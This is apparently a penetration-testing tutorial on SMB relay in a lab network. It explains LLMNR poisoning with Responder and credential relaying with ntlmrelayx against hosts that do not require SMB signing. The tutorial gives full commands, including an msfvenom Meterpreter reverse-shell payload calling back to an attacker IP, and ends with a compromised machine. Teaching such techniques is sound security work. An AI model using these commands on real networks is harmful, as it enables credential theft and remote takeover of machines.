



Introduction
Before reading this article, it is important to review the previous article on LLMNR Poisoning, as the SMB Relay technique builds directly on the concepts covered there.
What is SMB Relaying?
The idea behind SMB Relaying is similar to what was explained in the LLMNR Poisoning article, but with a few key differences. In this technique, we perform LLMNR Poisoning using the Responder tool to capture the NTLMv2 hash from a victim on the network. However, instead of cracking the hash offline, we pass it directly to the Ntlmrelayx tool. This is the main advantage of SMB Relay -- there is no need to crack the hash at all.
Ntlmrelayx takes the captured hash and uses it to authenticate via the SMB protocol against all machines on the network. There is one critical requirement for this to work: the target machine must not have SMB2 Signing set as required. If Ntlmrelayx successfully authenticates to one of the target machines, it will upload a malicious file (a Reverse Shell payload) and execute it, giving us a remote session on that machine.
Walkthrough
Step 1: Identify Machines Without Required SMB2 Signing
The first thing we need to do is determine which machines on the network do not enforce SMB2 Signing. We use CrackMapExec for this purpose.
After running the scan, we can observe that the machine with an IP address ending in 13 does not have SMB2 Signing set as required, making it a viable target for the relay attack.

Step 2: Generate a Malicious Payload
Before starting Responder and Ntlmrelayx, we need to create a malicious reverse shell payload using msfvenom. This payload will be uploaded and executed on the target machine if the relay succeeds:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.117 LPORT=449 -f exe > rev.exe
This generates a 64-bit Meterpreter reverse TCP payload that will connect back to our attacker machine at 192.168.100.117 on port 449.
Step 3: Configure Responder
Before launching Responder, we need to edit the Responder.conf configuration file. Specifically, we must change the SMB and HTTP server options from On to Off. This is necessary to prevent conflicts between Responder and Ntlmrelayx, since both tools would otherwise try to listen on the same ports for SMB and HTTP traffic. By disabling these in Responder, we allow Ntlmrelayx to handle the SMB relay without interference.

Step 4: Launch Responder and Ntlmrelayx
Now we start both tools. First, launch Ntlmrelayx, pointing it at a file containing the target IPs (machines without required SMB2 Signing), and specifying our malicious payload:
python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf smb.txt -e rev.exe -smb2support
-tf smb.txtspecifies the target file containing the list of IPs to relay credentials to.-e rev.exespecifies the executable payload to upload and run on the target.-smb2supportenables SMB2 support for the relay.
In a second terminal, launch Responder to begin poisoning LLMNR and NBT-NS requests on the network:
sudo python2 Responder.py -I eth0 -wv
-I eth0specifies the network interface to listen on.-wstarts the WPAD rogue proxy server.-venables verbose output.

Step 5: Wait for a Victim
At this point, we wait for a user on the network to trigger a name resolution request that Responder can poison. This happens when someone tries to access a non-existent SMB share (for example, srv1.vuln.local\\secret\\) or navigates to a non-existent website. When this occurs, Responder captures the victim's NTLMv2 hash and passes it to Ntlmrelayx, which relays it to the target machine whose IP ends in 13.
Step 6: Successful Relay and Shell
After approximately ten minutes of waiting, a user named Khalid searched for a non-existent SMB share. Responder captured Khalid's NTLMv2 hash and forwarded it to Ntlmrelayx. Ntlmrelayx then relayed Khalid's credentials to the target machine (IP ending in 13), successfully authenticated via SMB, uploaded the malicious reverse shell payload, and executed it. This gave us a full Meterpreter session on the compromised machine.
